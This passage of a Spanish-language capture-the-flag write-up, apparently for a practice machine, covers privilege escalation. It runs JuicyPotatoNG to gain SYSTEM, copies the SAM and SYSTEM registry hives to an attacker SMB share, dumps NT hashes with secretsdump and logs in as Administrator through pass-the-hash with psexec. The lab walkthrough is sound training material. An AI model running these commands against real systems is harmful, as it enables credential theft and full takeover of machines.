 Subo el ```JuicyPotatoNG.exe``` a la máquina y lo ejecuto. Creo un recurso compartido a nivel de red para copiarme la SAM y el SYSTEM a mi equipo

```null
impacket-smbserver shared $(pwd) -smb2support
```

```null
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p cmd.exe -a "/c reg save HKLM\SAM \\10.10.16.4\shared\sam"


	JuicyPotatoNG
	by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[-] CreateProcessAsUser Failed to create proc: 2
[+] CreateProcessWithTokenW OK
[+] Exploit successful! 
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p cmd.exe -a "/c reg save HKLM\SYSTEM \\10.10.16.4\shared\system"


	JuicyPotatoNG
	by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[-] CreateProcessAsUser Failed to create proc: 2
[+] CreateProcessWithTokenW OK
[+] Exploit successful! 
```

Con ```impacket-secretsdump``` dumpeo los hashes NT de todos los usuarios

```null
impacket-secretsdump -system system -sam sam LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xc03291f1e2546394e520465648694c79
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cfae93e238dd61819cb9ab492a31cf06:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Destitute:1001:aad3b435b51404eeaad3b435b51404ee:213d5b0f252d57b6ede6b74ba7ba04b2:::
[*] Cleaning up... 
```

Hago PassTheHash para conectarme como Administrador y veo la segunda flag

```null
psexec.py WORKGROUP/Administrator@10.10.10.116 -hashes :cfae93e238dd61819cb9ab492a31cf06
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.116.....
[*] Found writable share ADMIN$
[*] Uploading file oqnjoUOO.exe
[*] Opening SVCManager on 10.10.10.116.....
[*] Creating service rLgA on 10.10.10.116.....
[*] Starting service rLgA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```